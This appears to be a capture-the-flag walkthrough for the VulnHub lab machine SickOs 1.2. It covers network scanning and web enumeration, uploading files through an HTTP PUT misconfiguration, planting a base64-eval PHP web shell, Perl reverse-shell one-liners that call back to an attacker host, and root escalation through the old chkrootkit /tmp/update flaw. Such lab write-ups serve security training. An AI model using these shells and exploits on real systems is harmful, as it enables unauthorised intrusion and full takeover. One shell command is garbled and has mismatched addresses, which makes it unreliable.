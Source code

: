 # Port Scan

Perform a Ping Sweep
```
nmap -sn 192.168.114.1-254
```
```
Starting Nmap 7.60 ( https://nmap.org ) at 2018-03-01 23:57 AEDT
MAC Address: 00:50:56:FE:6D:CA (VMware)
Nmap scan report for 192.168.114.132
Host is up (-0.10s latency).
MAC Address: 00:50:56:FF:87:FA (VMware)
Nmap scan report for 192.168.114.131
Host is up.
Nmap done: 254 IP addresses (5 hosts up) scanned in 2.35 seconds
```
192.168.114.131 is my KALI machine
192.168.114.132 is target machine

# Enumeration
### Port Enumeration
```
nmap -sV 192.168.114.132
```
```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.8 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    lighttpd 1.4.28
```
### HTTP Enumeration
```
nikto -h 192.168.114.132
```
```
+ Server: lighttpd/1.4.28
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ All CGI directories 'found', use '-C none' to test none
+ OSVDB-3268: /test/: Directory indexing found.
+ 26188 requests: 0 error(s) and 4 item(s) reported on remote host
```
Directory indexing found , but it is empty, so useless information.
```
dirb http://192.168.114.132
```
```
---- Scanning URL: http://192.168.114.132/ ----
+ http://192.168.114.132/index.php (CODE:200|SIZE:163)                         
==> DIRECTORY: http://192.168.114.132/test/ 
```
Also only found one directory.

### Searching for exploits
```
searchsploit -e lighttpd
```
Does not return with any major exploits or vulnerabilities.

Low Hanging Fruit : http://192.168.114.132/test/ 

Using cURL to see If we can upload any files onto /test/
```
echo "test" > test.txt
curl -T 'test.txt' 'http://192.168.114.132/test/test.txt'
```
```
<?xml version="1.0" encoding="iso-8859-1"?>
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
         "http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html xmlns="http://www.w3.org/1999/xhtml" xml:lang="en" lang="en">
 <head>
  <title>417 - Expectation Failed</title>
 </head>
 <body>
  <h1>417 - Expectation Failed</h1>
 </body>
</html>
```
We are returned with Expectation Failed, which is unique. A bit of googling
https://stackoverflow.com/questions/9120760/curl-simple-file-upload-417-expectation-failed

Says we need to include --http1.0
### Vulnerability - Misconfigured Upload

```
curl -T 'test.txt' 'http://192.168.114.132/test/test.txt' --http1.0
```
Successfully Uploaded a file. 


# Exploit Vulnerability
Now we have full reigns on upload , you can upload a reverse php shell, backdoor etc. In this case we'll upload a basic php system call.

##### Step 1. Create a backdoor
```
echo 'system($_GET['cmd']);' | base64      // Not neccessary to encode it to base64
echo "<?php eval(base64_decode('c3lzdGVtKCRfR0VUW2NtZF0pOwo=')) ?>" > evil.php
```
##### Step 2. Upload and Accessing the exploit: in URL
```
http://192.168.114.132/test/evil.php?cmd="ifconfig"
```
Using a basic perl reverse shell (Generated from msfvenom)  // port 1234 , will not return anything. Port 443 works!
```
http://192.168.114.132/test/evil.php?cmd=192.168.114.132/test/test.php?cmd=/usr/bin/perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.21.31:1234");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'
```
OR just use one of http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
```
nc -lvp 443
listening on [any] 443 ...
192.168.114.132: inverse host lookup failed: Unknown host
connect to [192.168.114.131] from (UNKNOWN) [192.168.114.132] 59858
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
OR use multi/handler to pick up the connection
```
msfconsole
use exploit/multi/handler
set payload linux/x86/shell/reverse_tcp
...
```
# Local Privilege Escalation

Running a Linux Priv Checker ( Automated Script )
Manually checking the crontabs, we see a few programs that are scheduled to run
```
$ ls /etc/cron.daily/
ls /etc/cron.daily/
apt	  bsdmainutils	dpkg	  logrotate  mlocate  popularity-contest
aptitude  chkrootkit	lighttpd  man-db     passwd   standard
```
Check each of the versions of the following to see if they have a vulnerability
```
 chkrootkit 0.49-4ubuntu1.1  detector
```
Found an exploit. 

# Vulnerability Exploited - Out of Date CHKROOTKIT
https://www.exploit-db.com/exploits/33899/

"Result: The file /tmp/update will be executed as root, thus effectively
rooting your box, if malicious content is placed inside the file."

##### Step 1. Create a bash, named "update"
```
#!/bin/sh

echo "`/usr/bin/perl -MIO -e '$p=fork;exit,if($p);foreach my $key(keys %ENV){if($ENV{$key}=~/(.*)/){$ENV{$key}=$1;}}$c=new IO::Socket::INET(PeerAddr,"192.168.114.131:443");STDIN->fdopen($c,r);$~->fdopen($c,w);while(<>){if($_=~ /(.*)/){system $1;}};'`"

#end
```
Using the same shell, we can get a root shell.

#### Step 2. Upload to target machine, and place in /tmp/

WGET does not seem to work, so we upload through the same way in the previous section.

#### Wait.
Using msfconsole/exploit/multi/handler 
```
Command shell session 5 opened (192.168.114.131:443 -> 192.168.114.132:37026) at 2018-03-02 18:16:55 +1100
```
```
id  
uid=0(root) gid=0(root) groups=0(root)
pwd
/root
cat 7d03aaa2bf93d80040f3f22ec6ad9d5a.txt
WoW! If you are viewing this, You have "Sucessfully!!" completed SickOs1.2, the challenge is more focused on elimination of tool in real scenarios where tools can be blocked during an assesment and thereby fooling tester(s), gathering more information about the target using different methods, though while developing many of the tools were limited/completely blocked, to get a feel of Old School and testing it manually.

Thanks for giving this try.

@vulnhub: Thanks for hosting this UP!.
```






